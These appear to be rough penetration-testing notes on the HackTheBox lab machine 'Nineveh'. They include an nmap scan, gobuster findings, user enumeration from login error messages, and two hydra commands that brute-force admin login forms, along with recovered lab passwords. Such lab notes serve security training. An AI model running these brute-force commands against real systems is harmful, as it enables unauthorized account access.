




Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 20:12 EDT
Nmap scan report for nineveh.htb (10.129.162.247)
Host is up (0.29s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1

the certificcate ot https site:

 indiactes admin user exists

Login.php at /department by gobuster

gives invalid username and password error messages



this indiacates that admin user exists

`sqlmap -r login.req` - no results

how to bruteforce for admin


also run gobuster onhttps site and we get /db page

using hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```

found a password


[80][http-post-form] host: 10.129.162.247   login: admin   password: 1q2w3e4r5t




. SecLists (apt install seclists) has a twitter-banned.txt that seems like a reasonable place to start:

password123 is a password


